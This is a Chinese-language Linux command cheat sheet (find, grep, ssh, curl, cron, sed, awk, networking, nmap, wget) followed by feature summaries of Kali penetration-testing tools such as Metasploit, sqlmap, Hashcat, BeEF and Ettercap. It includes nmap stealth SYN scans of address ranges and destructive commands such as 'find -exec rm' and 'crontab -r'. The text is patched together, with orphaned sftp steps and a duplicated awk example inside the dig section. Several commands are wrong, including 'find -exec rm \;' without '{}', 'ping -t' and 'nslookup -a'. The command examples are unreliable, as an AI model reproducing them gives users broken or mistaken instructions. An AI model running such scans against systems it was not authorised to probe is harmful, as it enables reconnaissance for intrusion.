定位具有特定扩展名（例如 ".txt"）的文件：
```bash
find . -name "*.txt"
```

对 `find` 命令找到的所有文件执行命令（例如 `delete`）：
```bash
find . -name "*.bak" -exec rm \;
```

### `grep` - 在文件中搜索模式：

在文件中搜索模式：
```bash
grep "pattern" /path/to/file
```

在文件中搜索模式（例如 "error"）：
```bash
grep "error" /path/to/file
```

在目录的所有文件中搜索模式：
```bash
grep -r "error" /path/to/directory
```

在目录及其所有子文件中搜索模式：
```bash
grep -r "error" /path/to/directory/*
```

在另一个命令的输出中搜索模式：
```bash
command | grep "error"
```

搜索模式并显示所在的行号：
```bash
grep -n "error" /path/to/file
```

忽略大小写搜索模式：
```bash
grep -i "error" /path/to/file
```

仅显示包含模式的文件名：
```bash
grep -l "error" /path/to/directory
```

### `ssh` - 安全登录另一台计算机：

使用默认用户名访问远程系统：
```bash
ssh remote_host
```

使用指定的用户名访问远程系统：
```bash
ssh username@remote_host
```

访问远程系统并执行命令：
```bash
ssh username@remote_host command
```

访问远程系统并运行脚本：
```bash
ssh username@remote_host < script.sh
```

使用特定端口访问远程系统：
```bash
ssh -p port_number username@remote_host
```

使用 ssh 密钥访问远程系统：
```bash
ssh -i /path/to/key username@remote_host
```

### `curl` - 从向服务器传输数据：

获取网站的内容：
```bash
curl http://www.example.com
```

获取网站的内容并保存到文件：
```bash
curl http://www.example.com > example.html
```

获取网站的头部：
```bash
curl -I http://www.example.com
```

使用 POST 请求向网站发送数据：
```bash
curl -d "key1=value1&key2=value2" http://www.example.com
```

上传文件到网站：
```bash
curl -F "file=@/path/to/file" http://www.example.com/upload
```

跟随重定向：
```bash
curl -L http://www.example.com
```

通过 FTP 获取文件：
```bash
curl ftp://ftp.example.com/file.txt
```

### `tar` - 创建或解压归包：

创建一个归档文件：
```bash
tar -cvf archive.tar /path/to/directory
```

解压归档文件：
```bash
tar -xvf archive.tar
```

使用 gzip 创建压缩归档文件：
```bash
tar -zcvf archive.tar.gz /path/to/directory
```

解压 gzip 压缩的归档文件：
```bash
tar -zxvf archive.tar.gz
```

使用 bzip2 创建压缩归档文件：
```bash
tar -jcvf archive.tar.bz2 /path/to/directory
```

解压 bzip2 压缩的归档文件：
```bash
tar -jxvf archive.tar.bz2
```

显示归档文件的内容：
```bash
tar -tvf archive.tar
```

### `gzip` - 压缩或解压文件：

压缩一个文件：
```bash
gzip file.txt
```

解压 gzip 压缩的文件：
```bash
gzip -d file.txt.gz
```

压缩多个文件：
```bash
gzip file1.txt file2.txt file3.txt
```

解压多个 gzip 压缩的文件：
```bash
gzip -d file1.txt.gz file2.txt.gz file3.txt.gz
```

显示 gzip 压缩文件的压缩率：
```bash
gzip -l file.txt.gz
```

### `chmod` - 修改文件权限：

将文件权限更改为 755：
```bash
chmod 755 file.txt
```

修改目录权限为 755：
```bash
chmod 755 directory
```

修改多个文件和目录的权限：
```bash
chmod 755 file1.txt file2.txt directory1 directory2
```

为文件所有者添加执行权限：
```bash
chmod +x file.txt
```

移除文件所有者的执行权限：
```bash
chmod -x file.txt
```

使用符号模式修改文件权限：
```bash
chmod u+rwx,g+rw,o+r file.txt
```

### `chown` - 修改文件所有者和组：

将文件的所有者修改为用户 johndoe：
```bash
chown johndoe file.txt
```


# 文件权限管理

将文件的所有者修改为用户 `johndoe`，组修改为 `users`：

```bash
chown johndoe:users file.txt
```

修改目录及其所有内容的所有者：

```bash
chown -R johndoe:users directory
```

修改多个文件和目录的所有者：

```bash
chown johndoe:users file1.txt file2.txt directory1 directory2
```

将文件的所有者修改为用户 ID `1000` 的用户：

```bash
chown 1000 file.txt
```

### Cron (定时任务)

`cron` - 在指定时间运行命令：

列出当前用户的 cron 任务：

```bash
crontab -l
```

编辑用户的 cron 任务：

```bash
crontab -e
```

添加一个 cron 任务，在每周一下午 5 点运行脚本：

```bash
crontab -e # 在文件中添加以下行 0 17 * * 1 /path/to/script.sh
```

添加一个 cron 任务，每小时运行一次脚本：

```bash
crontab -e # 在文件中添加以下行 0 * * * * /path/to/script.sh
```

删除用户所有的 cron 任务：

```bash
crontab -r
```

# Sed (流编辑器)

`sed` - 用于文本过滤和转换的流编辑器：

将文件中所有出现的 `old` 单词替换为 `new`：

```bash
sed 's/old/new/g' file.txt
```

将文件中第一次出现的 `old` 单词替换为 `new`：

```bash
sed 's/old/new/' file.txt
```

仅在文件的第 3 行将 `old` 单词替换为 `new`：

```bash
sed '3 s/old/new/' file.txt
```

删除文件中的第 5 行：

```bash
sed '5d' file.txt
```

删除文件中所有的空行：

```bash
sed '/^$/d' file.txt
```

在文件的第 5 行之后插入一个新行：

```bash
sed '5a\
This is a new line' file.txt
```

# Awk (文本处理语言)

`awk` - 模式扫描和处理语言：

打印文件中每行的第一字段和第三字段：

```bash
awk '{print $1, $3}' file.txt
```

打印日志文件中所有包含 "error" 单词的行：

```bash
awk '/error/ {print}' logfile.log
```

打印文件中第二列之和：

```bash
awk '{sum+=$2} END {print sum}' file.txt
```

打印文件中第二列数值的平均值：

```bash
awk '{sum+=$2; count++} END {print sum/count}' file.txt
```

通过加 10 来修改文件中第二列的值：

```bash
awk '{$2+=10; print}' file.txt
```

### Ping (网络测试)

`ping` - 测试网络连通性：

ping 一个网站以检查是否可访问。

```bash
ping google.com
```

ping 一个网站并限制发送的数据包数量：

```bash
ping -c 4 google.com
```

ping 一个网站并设置数据包大小：

```bash
ping -s 1000 google.com
```

ping 一个网站并仅显示摘要信息：

```bash
ping -q google.com
```

ping 一个网站并持续运行直到通过 `CTRL + C` 停止：

```bash
ping -t google.com
```

### Netstat (网络统计)

`netstat` - 显示网络连接、路由表和统计数据：

显示所有活跃的网络连接和监听端口：

```bash
netstat -an
```

显示所有 TCP 连接：

```bash
netstat -at
```

显示所有 UDP 连接：

```bash
netstat -au
```

显示所有监听和已建立的网络连接：

```bash
netstat -anp
```

显示所有协议的统计信息：

```bash
netstat -s
```

显示关于所有活跃 Internet 连接的信息：

```bash
netstat -i
```

显示路由表信息：

```bash
netstat -r
```

### NSlookup (DNS 查询)

`nslookup` - 查询 DNS 以获取域名或 IP 地址映射：

查找网站的 IP 地址。

```bash
nslookup google.com
```

查找网站的名称服务器：

```bash
nslookup -a google.com
```

查找域名的邮件交换 (MX) 记录：

```bash
nslookup -q=mx google.com
```

查找特定名称服务器的 IP 地址：

```bash
nslookup -ns=ns1.google.com google.com
```

使用特定的 DNS 服务器解析查询：

```bash
nslookup google.com 8.8.8.8
```

### Traceroute (路由追踪)

`traceroute` - 追踪到远程主机的网络路径：

追踪到网站的路由：

```bash
traceroute google.com
```

指定要搜索的跳数：

```bash
traceroute -m 20 google.com
```

使用特定的端口号：

```bash
traceroute -p 80 google.com
```

使用 IP 地址代替域名：

```bash
traceroute 216.58.194.174
```

使用特定的网络接口：

```bash
traceroute -i eth0 google.com
```

### Ifconfig (接口配置)

`ifconfig` - 配置网络接口：

显示所有网络接口的信息：

```bash
ifconfig
```

显示特定网络接口的信息：

```bash
ifconfig eth0
```

配置 IP 地址：

```bash
ifconfig eth0 192.168.0.100 netmask 255.255.255.0
```

启动网络接口：

```bash
ifconfig eth0 up
```

关闭网络接口：

```bash
ifconfig eth0 down
```

显示网络接口的 MAC 地址：

```bash
ifconfig eth0 | grep HWaddr
```

### Route (路由管理)

`route` - 显示/操作 IP 路由表：

显示路由表：

```bash
route -n
```

添加默认网关：

```bash
route add default gw 192.168.0.1
```

添加静态路由：

```bash
route add -net 192.168.2.0 netmask 255.255.255.0 gw 192.168.0.1
```

删除静态路由：

```bash
route del -net 192.168.2.0 netmask 255.255.255.0 gw 192.168.0.1
```

显示特定网络的路由信息：

```bash
route -n get 192.168.0.1
```

# Iables (防火墙配置)

`iptables` - 配置 Linux 内内核防火墙：

显示当前的 iptables 防火墙规则：

```bash
iptables -L
```

允许入站 SSH 连接：

```bash
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

阻止来自 IP 地址的入站连接：

```bash
iptables -A INPUT -s 192.168.0.100 -j DROP
```

允许入站 HTTP 流量：

```bash
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
```

保存当前的 iptables 规则：

```bash
iptables-save > /etc/iptables/rules.v4
```

加载保存的 iptables 规则：

```bash
iptables-restore < /etc/iptables/rules.v4
```

### Dig (高级 DNS 查询)

`dig` - 查询 DNS 服务器获取信息：

查询域名的 IP 地址：

```bash
dig google.com
```

通过加 10 来修改文件中第二列的值：

```bash
awk '{$2+=10; print}' file.txt
```

查找域名的 MX 记录：

```bash
dig google.com MX
```

查找域名的 NS 记录：

```bash
dig google.com NS
```

查找域名的 SOA 记录：

```bash
dig google.com SOA
```

查找域名的 TXT 记录：

```bash
dig google.com TXT
```

查找域名的 CNAME 记录：

```bash
dig google.com CNAME
```

查找域名的 A 记录：

```bash
dig google.com A
```

查找域名的 AAAA 记录：

```bash
dig google.com AAAA
```

查找域名的 ANY 记录：

```bash
dig google.com ANY
```

查找域名的 SRV 记录：

```bash
dig google.com SRV
```

查找 IP 地址的 PTR 记录：

```bash
dig -x 8.8.8.8
```

查询 DNSSEC 启的记录：

```bash
dig +dnssec google.com
```


# 7- 在远程主机上删除文件：

```
rm file.txt
```

# 8- 退出 sftp 会话：

```
exit
```

# nmap - 执行各种网络扫描和任务：

- `-sS` 用于隐形（`SYN` ）扫描扫描，这是一种常见的默认扫描选项。
- `-sV` 用于服务和版本检测，以识别目标主机上运行的服务及其版本。
- `-oA` 后接文件名，用于以多种格式输出扫描结果。

```bash
nmap -sS -sV -oA scan_results 192.168.0.1
```

这将对对目标主机 `192.168.0.1` 执行隐形（`SYN` ）扫描以及服务和版本检测，并将扫描结果以多种格式保存到扫描结果文件中。

- `-O` 用于执行操作系统检测，以识别目标主机上运行的操作系统类型和版本。
- `-A` 用于启用 OS 探测、版本检测、脚本扫描和跟踪路由，所有功能都在一个选项中完成。
- `-T[0-5]` 用于设置时间模板，其中 0 是最慢，5 是最快。默认值为 3。
- `-iL` 后接文件名，用于指定要扫描的目标列表。该文件每行包含一个目标。
- `-p-` 扫描所有 65535 个 TCP 端口，对目标进行全面扫描非常有用。
- `--top-ports` 后接数字，用于扫描最常用的端口。例如，`--top-ports 100` 将扫描 100 个常用端口。
- `--open` 仅显示开放端口，可以使输出更易读。
- `--script` 后接脚本名称或类别，用于在目标上运行 Nmap 脚本。Nmap 带有许多内置脚本，你也可以编写自己的脚本。
- `--host-timeout` 后接以秒为单位的时间，设置等待主机响应的最大时间。
- `--scan-delay` 后接以秒为单位的时间，设置对目标探测之间的最小时间。

```bash
nmap -sS -sV -O -A -oA scan_results -v --top-ports 100 192.168.0.1-192.168.0.255
```

这将对 `192.168.0.1` 到 `192.168.0.255` 范围内的所有 256 个主机执行隐形（`SYN` ）扫描、服务和版本检测、操作系统检测和脚本扫描。结果将以多种格式保存到 `scan_results` 文件，并在控制台上显示详细输出。扫描将仅关注 100 个最常用的端口。

其中 `[target]` 可以为主机、IP 地址或地址范围。

```bash
nmap google.com
nmap 192.168.1.1
nmap 192.168.1.1-100
```

你也可以指定用空格分隔的多个目标

``````
nmap google.com 192.168.1.1
```

# 输出

```text
Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-15 11:10 EST

Nmap scan report for google.com (216.58.194.174)
Host is up (0.16s latency).
rDNS record for 216.58.194.174: lhr25s15-in-f14.1e100.net
Not shown: 998 filtered ports

PORT    STATE  SERVICE
80/tcp  open    http
443/tcp open    https

Nmap scan report for 192.168.1.1
Host is up (0.00043s latency).
Not shown: 998 filtered ports

PORT    STATE  SERVICE
80/tcp  open    http
443/tcp open    https
```

在此示例中，`nmap` 扫描了 `google.com` 和 `192.168.1.1`，并报告了两个主机均在线并有响应。对于每个主机，`nmap` 列出了 IP 地址和反向 DNS 记录。它还显示了每个主机上开放端口的状态和对应的。在这种情况下，`google.com` 和 `192.168.1.1` 均开放了 `80` 和 `443` 端口，并分别运行 HTTP 和 HTTPS 服务。

# wget - 从网络非交互式下载文件：

### 下载单个文件：

```bash
wget https://example.com/file.zip
```

### 下载文件并重命名保存：

```bash
wget https://example.com/file.zip -O new_file.zip
```

### 下载文件并显示进度条：

```bash
wget https://example.com/file.zip --show-progress
```

### 从网站下载所有文件：

```bash
wget -r --no-parent https://example.com/
```

### 下载文件并限制下载速度：

```bash
wget https://example.com/file.zip --limit-rate=200k
```

# 导航：

- `.` 指当前目录。
- `..` 指父目录。
- `~` 指当前用户的家目录。
- `/` 指根目录。

**Tab 键补全**：你可以使用 `Tab` 键自动补全文件名和目录名。
如果你有一个名为 `example_dir` 的目录并输入 `cd ex` 然后按 `Tab`，终端将自动填充剩余部分为 `cd example_dir/`。

利用向上和向下箭头键循环切换之前执行过的命令，方便重复或修改过去的命令。

**通配符**：你可以使用 `*` 和 `?` 等通配符来匹配多个文件或目录。例如，`ls *.txt` 将列出当前目录下所有 `.txt` 扩展的文本文件。

**alias（别名）**：你可以通过 `alias` 命令为常用命令创建快捷方式。使用 `alias` 命令为频繁使用的命令创建快捷方式。例如，为带有 `-l` 和 `--color` 选项的 `ls` 命令创建别名，运行 `alias ll='ls -l --color'`。

**history（历史）**：你可以使用 `history` 命令查看之前运行过的命令列表。这是查找和重复之前使用的命令的有效方法。

**| (管道)**：你可以使用管道符 `|` 将一个命令的输出重定向为另一个命令的输入。例如，`ls -l | less` 将显示 `ls -l` 命令的输出。

**环境变量**：环境变量用于存储可供命令使用的信息。例如，`PATH` 环境变量包含了运行命令时要搜索的目录列表。


# 4. Kali Linux 工具包

Kali Linux 是一个基于 Debian 的发行版，专门为渗透测试、数字取证和安全审计而设计。它包含了大量用于这些任务的工具，其中许多工具已包含在 Kali Linux 工具包中。以下是 Kali Linux 工具包中包含的工具的示例：

### Nmap
Nmap 用于网络探索、管理和安全审计。Nmap 用于发现计算机网络上的主机和服务，并绘制网络地图。它可以用于扫描大型网络或单个主机，在网络盘点、监控服务可用性和安全审计等各种任务中非常有用。Nmap 的一些关键特性包括：

- **主机发现**：Nmap 可以识别网络上的活动主机，并确定它们的操作系统及其上运行的服务。
- **端口扫描**：Nmap 可以扫描目标主机上的开放端口和服务，让你直观了解目标系统正在运行什么。
- **OS 探测**：Nmap 可以确定目标主机上运行的操作系统，有助于识别漏洞和安全问题。
- **版本检测**：Nmap 可以确定目标主机上运行的应用程序和服务版本号。
- **可脚本化**：Nmap 拥有强大的脚本引擎，允许用户为高级任务编写自定义脚本。

## Metasploit Framework
Metasploit Framework 提供了一个用于开发、测试和执行漏洞利用的平台。它是一个用于渗透测试和漏洞评估的强大工具，安全人员也用它开发和测试漏洞。Metasploit Framework 允许用户执行诸如目标系统的远程利用、发现安全漏洞以及测试网络安全等任务。

Metasploit Framework 的关键特性包括：

- **漏洞开发**：Metasploit Framework 提供了一个开发和测试漏洞的平台，使安全人员更容易识别和修复漏洞。
- **漏洞评估**：Metasploit Framework 可用于漏洞评估，识别目标系统的弱性并评估安全态势。
- **远程利用**：Metasploit Framework 可用于对目标系统进行远程利用，攻破系统并可能获取敏感信息。
- **与其他工具集成**：Metasploit Framework 与 Nmap 和 Nessus 等其他工具集成，从而进行更全面的安全评估。


# 大型漏洞数据库

`Metasploit Framework` 拥有庞大的漏洞数据库，允许安全研究人员轻松地测试和开发新的漏洞。

## Armitage
`Armitage` 是 `Metasploit Framework` 的图形用户界面（GUI），该框架是一个开源软件项目，为开发、测试和执行漏洞提供平台。`Armitage` 提供了一个用户友好的界面，使得使用 `Metasploit Framework` 及其许多功能变得更加容易。

### Armitage 的主要功能包括：
- **图形用户界面**：`Armitage` 为 `Metasploit Framework`提供了图形用户界面，使用户更容易导航和使用该框架的各种功能。
- **漏洞管理**：`Armitage` 能够轻松管理和组织漏洞，允许用户快速找到特定任务所需的漏洞。
- **协作**：`Armitage` 支持协作，允许多个用户在单个渗透测试项目上共同工作。
- **自动化漏洞**：`Armitage` 包含了许多自动化漏洞，可用于快速轻松地破解目标系统。
- **报告**：`Armitage` 包含报告功能，可以为客户或利益相关者轻松创建专业的报告。

## Autopsy
`Autopsy` 是由 `Basis Technology Corporation` 开发的数字取证平台。它是一个免费开源软件，被执法机构、军事组织和私营侦探用于刑事调查中的数字证据分析。`Autopsy` 提供了一个全面且友好的界面，使得分析和理解调查期间收集的数字证据变得更容易。

### Autopsy 的主要功能包括：
- **用户友好的界面**：`Autopsy` 提供了一个用户友好的界面，让调查人员更容易分析和理解数字证据。
- **数据分析**：`Autopsy` 可分析各种类型的数字证据，包括硬盘、内存转储和移动设备。
- **文件碎片恢复（File carving）**：`Autopsy` 包含文件恢复功能，可以恢复从设备中删除的文件和其他数据。
- **哈希数据库**：`Autopsy` 包含一个哈希数据库，可识别已知文件（如操作系统文件），以加速调查过程。
- **报告**：`Autopsy` 包含报告功能，可以为客户或利益相关者轻松创建专业的报告。

## Wireshark
`Wireshark` 是一个网络协议分析器。它被网络管理员、安全专业人员和开发者广泛用于分析网络流量和解决网络相关问题。`Wireshark` 提供了一个图形用户界面，易于实时捕获、显示和分析网络流量。

### Wireshark 的主要功能包括：
- **网络协议分析**：`Wireshark` 可以分析和解码广泛的网络协议，提供对网络流量结构和内容的深度洞解。
- **实时捕获和显示**：`Wireshark` 可以实时捕获并显示网络流量，更容易识别和解决网络相关问题。
- **图形用户界面**：`Wireshark` 提供了一个图形用户界面，使用户更容易理解和分析网络流量。
- **过滤和搜索**：`Wireshark` 包含强大的过滤和搜索功能，允许用户快速找到并分析感兴趣的特定包。
- **高级分析**：`Wireshark` 包含了高级分析功能，如对话分析、流分析和 IO 图分析，使其成为网络分析和故障排除的强大工具。

## Aircrack-ng
`Aircrack-ng` 是一个免费开源的工具集，用于无线网络安全审计和渗透测试。它通常用于分析和利用无线网络中的漏洞，并评估无线网络的安全性。

### Aircrack-ng 的主要功能包括：
- **无线网络安全分析**：`Aircrack-ng` 可分析并评估无线网络的安全性，包括 `802.11a/b/g/n/ac` 网络。
- **包捕获与分析**：`Aircrack-ng` 可以捕获并分析无线网络流量，更容易识别和利用无线网络中的漏洞。
- **无线密码破解**：`Aircrack-ng` 包含了破解无线网络密码的工具，包括 `WEP`、`WPA` 和 `WPA2`。
- **与其他工具集成**：`Aircrack-ng` 可以与其他无线安全工具（如无线网络扫描器和无线网络蜜罐）集成，以增强工具箱的功能。
- **开源**：`Aircrack-ng` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## John the Ripper
`John the Ripper` 是一个免费开源的密码破解工具。它被安全专业人员和系统管理员广泛用于评估密码强度并恢复丢失或忘记的密码。

### John the Ripper 的主要功能包括：
- **密码破解**：`John the Ripper` 可以破解使用多种算法哈希的密码，包括 `Unix crypt`、`MD5`、`SHA-1` 等许多。
- **多平台支持**：`John the Ripper` 支持广泛平台，包括 `Windows`、`Linux`、`macOS` 等，使其成为一个多功能的密码破解工具。
- **可自定义的攻击模式**：`John the Ripper` 包含了许多可自定义的攻击模式，包括字典攻击、暴力破解和组合攻击，使其成为灵活的密码破解工具。
- **性能优化**：`John the Ripper` 专为性能设计，可以快速破解密码，即使面对大型密码列表。
- **开源**：`John the Ripper` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

## Sqlmap
`sqlmap` 是用于检测和利用 Web SQL 注入漏洞的开源工具。它通常被安全专业人员和渗透测试人员用于评估应用程序的安全并识别可能被攻击者利用的漏洞。

### sqlmap 的主要功能包括：
- **SQL 注入检测**：`sqlmap` 旨在自动检测 Web 应用中的 SQL 注入漏洞，是识别安全问题的价值工具。
- **数据库指纹识别**：`sqlmap` 可以识别 Web 应用程序使用的数据库管理系统（DBMS）指纹，更容易识别数据库类型和存在的特定漏洞。
- **自动利用**：`sqlmap` 可以自动利用 SQL 注入漏洞，允许安全专业人员快速轻松地识别漏洞范围和受风险的数据。
- **数据库管理系统支持**：`sqlmap` 支持广泛的数据库管理系统，包括 `MySQL`、`Microsoft SQL Server`、`Oracle` 等，使其成为 Web 安全评估的多功能工具。
- **开源**：`sqlmap` 是一个开源工具，允许安全研究人员和开发者修改改进代码以满足他们的特定需求。

### OWASP ZAP
`OWASP ZAP`（Zed Attack Proxy）是一个免费开源的 Web 应用安全测试工具。它通常被安全专业人员和渗透测试人员用于评估 Web 应用的安全并识别可能被攻击者利用的漏洞。

### OWASP ZAP 的主要功能包括：
- **漏洞扫描**：`OWASP ZAP` 可以自动扫描 Web 应用以发现广泛的安全漏洞，包括 SQL 注入、跨站脚本（`XSS`）等，是识别安全问题的价值工具。


### OWASP ZAP
手动测试支持：OWASP ZAP 提供了一套手动测试工具，允许安全专业人员执行自定义测试，并识别自动化扫描可能无法的特定漏洞。

主动扫描：OWASP ZAP 可以执行主动扫描，这涉及尝试利用 Web 应用程序中的漏洞，为应用程序的安全性提供更全面的视角。

与其他工具集成：OWASP ZAP 可以与其他安全工具（如漏洞扫描器和渗透测试框架）集成，以增强您工具箱箱的功能。

开源：OWASP ZAP 是一款开源工具，允许安全研究人员和开发者修改并改进代码，以满足他们的特定需求。

### Burp Suite
Burp Suite 是由 PortSwigger 开发的一种种商业 Web 应用程序安全测试工具。它通常用于安全专业人员和渗透测试人员评估 Web 应用程序的安全性并识别可能被攻击者利用的漏洞。

#### Burp Suite 的主要功能：
- **漏洞扫描**：Burp Suite 可以自动扫描 Web 应用程序的各种安全漏洞，包括 SQL 注入、跨站脚本 (XSS) 等，使其成为识别安全问题的价值工具。
- **手动测试支持**：Burp Suite 提供了一套手动测试工具，允许安全专业人员执行自定义测试并识别自动化扫描可能无法的特定漏洞。
- **主动扫描**：Burp Suite 可以执行主动扫描，这涉及尝试利用 Web 应用程序中的漏洞，为应用程序的安全性提供更全面的视角。
- **代理支持**：Burp Suite 提供了一个代理服务器，可用于拦截和修改网络流量，使得执行自定义测试和识别特定漏洞变得更容易。
- **与其他工具集成**：Burp Suite 可以与其他安全工具（如漏洞扫描器和渗透测试框架）集成，以增强您工具箱的功能。

## EtherApe
EtherApe 是一种用于类 Unix 网络协议分析器。它通常用于网络管理员和安全专业人员可视化网络流量，并识别网络问题和安全问题。

#### EtherApe 的主要功能：
- **网络可视化**：EtherApe 提供了网络流量的可视化表示，允许网络管理员快速识别网络流量模式和趋势，并定位潜在的安全问题。
- **协议解码**：EtherApe 可以解码多种网络协议，包括 TCP、UDP、ICMP 等，使其成为在协议层面分析网络流量的价值工具。
- **支持多种捕获方法**：EtherApe 支持多种捕获方法，包括实时捕获和从保存的文件捕获，使其成为网络分析的灵活工具。
- **可自定义显示**：EtherApe 提供了可自定义的显示，允许网络管理员根据特定需求定制网络流量视图。
- **开源**：EtherApe 是一款开源工具，允许安全研究人员和开发者修改并添加新功能，以满足他们的特定要求。
- **与其他工具集成**：EtherApe 可以与其他网络分析工具（如 `Wireshark`）集成，以提供更全面的网络流量视角并增强您网络分析工具箱的功能。
- **多平台支持**：EtherApe 支持多种类 Unix 系统，包括 Linux 和 macOS，使其成为在广泛平台上进行网络分析的通用工具。

## WPScan
WPScan 是一款免费的开源工具，用于 WordPress 网站的安全性评估。它通常用于安全专业人员和渗透测试人员识别 WordPress 安装中的漏洞并评估 WordPress 网站的安全性。

#### WPScan 的主要功能：
- **漏洞扫描**：WPScan 可以扫描 WordPress 网站的已知漏洞，包括插件和主题漏洞，使其成为识别安全问题的价值工具。
- **WordPress 版本检测**：WPScan 可以检测网站上安装的 WordPress 版本，允许安全专业人员判断安装是否为最新且安全。
- **插件和主题检测**：WPScan 可以检测 WordPress 网站上安装的插件和主题，使得更容易识别这些组件中可能存在的漏洞。
- **暴力破解保护**：WPScan 可以执行暴力破解攻击来确定 WordPress 网站的用户名和密码，但它也内置了防止暴力破解攻击的保护，以防止过载网站造成损害。
- **开源**：WPScan 是一款开源工具，允许安全研究人员和开发者修改并改进代码，以满足他们的特定需求。

## Driftnet
Driftnet 是一款用于网络监控和图像提取的免费开源工具。它通常用于安全专业人员和网络管理员监控网络流量并提取通过网络传输的图像。

#### Driftnet 的主要功能：
- **图像提取**：Driftnet 可以提取并显示通过网络传输的图像，包括通过 HTTP、HTTPS 和 FTP 协议传输的图像。
- **网络监控**：Driftnet 可以监控网络流量并识别传输的图像，使其成为监控网络活动的价值工具。
- **多平台支持**：Driftnet 支持多种类 Unix 系统，包括 Linux 和 macOS，使其成为在广泛平台上进行网络监控的通用工具。
- **开源**：`driftnet` 是一款开源工具，允许安全研究人员和开发者修改并改进代码，以满足他们的特定需求。

## Hashcat
Hashcat 是一种被安全专业人员和渗透测试人员广泛使用的密码破解工具。它设计用于恢复丢失的密码并对哈希进行安全评估。

#### Hashcat 的主要功能：
- **高速密码破解**：Hashcat 针对高速密码破解进行了优化，使其成为可用最快的破解工具之一。
- **支持多种哈希类型**：Hashcat 支持多种哈希类型，包括 `MD5`、`SHA-1`、`SHA-256` 等，使其成为密码破解和安全安全的通用工具。
- **多平台支持**：Hashcat 支持多种平台，包括 Windows、Linux 和 macOS，使其成为在各种系统中进行密码破解的通用工具。
Hashcat 利用 GPU 力量加速密码破解，对于需要快速破解大量密码的安全专业人员来说，它是不可或的工具。
- **开源**：Hashcat 是一款开源工具，允许安全研究人员和开发者修改并改进代码，以满足他们的特定需求。

### Nikto
Nikto 是一种用于对 Web 服务器进行安全评估的扫描器。它通常用于安全专业人员和渗透测试人员识别漏洞并对基于 Web 的系统进行评估。

#### Nikto 的主要功能：
- **漏洞扫描**：Nikto 可以扫描 Web 服务器的已知漏洞和利用程序，使其成为识别安全风险的价值工具。
- **支持多平台**：Nikto 支持多种平台，包括 Windows、Linux 和 macOS，使其成为 Web 服务器安全评估的通用工具。
- **与其他工具集成**：Nikto 可以与其他安全工具（如漏洞扫描器和渗透测试框架）集成，以增强您工具箱的功能。


### Nikto
庞大的检查数据库：Nikto 拥有一个大型检查数据库，可以对 Web 服务器进行扫描，使其成为服务器安全评估的全面工具。

开源：Nikto 是一个开源工具，允许安全研究人员和开发者修改和改进代码以满足他们的特定需求。

## BeEF
BeEF（浏览器漏洞利用框架）是一个免费且开源的安全工具，用于对网络浏览器进行安全评估。它通常被安全专业人员和渗透测试人员用于识别网络浏览器中的漏洞并对基于 Web 的系统进行安全评估。

### BeEF 的主要特性：
- **浏览器利用**：BeEF 可以利用浏览器的漏洞，使其成为识别安全风险和演示基于浏览攻击影响的价值工具。
- **支持多种浏览器**：BeEF 支持一系列网络浏览器，包括 Internet Explorer、Google Chrome 和 Mozilla Firefox，使其成为浏览器安全评估的多种功能工具。
- **与其他工具集成**：BeEF 可以与其它安全工具（如漏洞扫描器和渗透测试框架）集成，以增强您的工具箱功能。
- **高级报告**：BeEF 提供高级报告功能，包括生成多种格式报告的能力，使其成为报告安全评估结果的有用工具。
- **开源**：BeEF 是一个开源工具，允许安全研究人员和开发者修改和改进代码以满足他们的特定需求。

## Maltego
Maltego 是一种商业性威胁情报和开源情报工具，用于侦察和数据分析。它通常用于安全专业人员、情报分析师和调查人员收集实体信息并识别它们之间的关系。

### Maltego 的主要特性：
- **侦察**：Maltego 可以从多种来源收集信息，包括社交媒体、网站和其他公共可用数据，使其成为侦察和开源情报（OSINT）收集的价值工具。
- **数据分析**：Maltego 提供高级数据分析能力，包括实体解析和链路分析，使其成为识别实体间关系和理解复杂数据的有用工具。
- **与其他工具集成**：Maltego 可以与其它安全工具（如威胁情报平台和漏洞扫描器）集成，以增强您的工具箱功能。
- **可定制**：Maltego 具有高度可定制性，允许用户定义自己的实体和数据源，使其成为多种用例的多种功能工具。
- **高级报告**：Maltego 提供高级报告功能，包括生成多种格式报告的能力，使其成为报告侦察和数据分析结果的有用工具。

## HTTrack
HTTrack 是一个免费且开源的网站镜像工具，允许用户将网站内容下载到本地目录以便离线浏览。HTTrack 通常用于网站存档和备份，以及在开发过程中测试网站。

### HTTrack 的主要特性：
- **网站镜像**：HTTrack 允许用户下载网站的所有内容，包括所有页面、图像和媒体，使其成为网站存档和备份的有用工具。
- **离线浏览**：HTTrack 允许用户离线浏览网站内容，使其成为开发过程中测试网站或在没有互联网连接时访问网站的有用工具。
- **可定制性**：HTTrack 允许用户自定义网站镜像过程，包括在镜像过程中排除特定页面、文件或目录的能力。
- **支持断点续传**：HTTrack 支持恢复中断的下载，使其成为下载大型网站的可靠工具。
- **跨平台兼容性**：HTTrack 支持多种操作系统，包括 Windows、MacOS 和 Linux，使其成为网站镜像和备份的多种功能工具。

## Tcpdump
`tcpdump` 是一种基于 Unix 的操作系统的命令行网络数据包分析工具。它允许用户捕获、分析和显示通过网络接口的流量。`tcpdump` 通常用于网络故障排除、安全分析以及网络分析和性能优化的包捕获与分析。

### `tcpdump` 的主要特性：
- **包捕获**：`tcpdump` 允许用户实时捕获和分析网络包，使其成为网络故障排除和安全分析的价值工具。
- **显示过滤器**：`tcpdump` 允许使用显示过滤器，让用户能够根据源目的 IP、端口号等特征选择想要查看的数据包。
- **输出选项**：`tcpdump` 允许用户将捕获的数据包保存到文件中以便稍后分析，或在控制台上实时显示数据包，使其成为网络分析和包捕获的灵活工具。
- **跨平台兼容性**：`tcpdump` 支持多种基于 Unix 的操作系统，包括 Linux、BSD 和 macOS，使其成为网络分析和故障排除的多种功能工具。

## Ettercap
Ettercap 是一个基于 Unix 的免费开源网络安全工具。它用于中间人攻击，涉及拦截和操纵网络流量。`Ettercap` 支持包括 TCP/IP、DNS、HTTP 和 SMB 在内的多种协议，并用于分析网络流量、执行网络扫描以及发起各种攻击（如 ARP 欺骗和 DNS 欺骗）。

### Ettercap 的主要特性：
- **中间人攻击**：`Ettercap` 允许用户执行中间人攻击（拦截并操纵网络流量），使其成为安全测试和分析的价值工具。
- **网络分析**：`Ettercap` 支持网络包的捕获和分析，使其成为网络故障排除和分析的价值工具。
- **多种攻击选项**：`Ettercap` 支持包括 ARP 欺骗和 DNS 欺骗在内的多种攻击选项，使其成为安全测试和分析的多种功能工具。
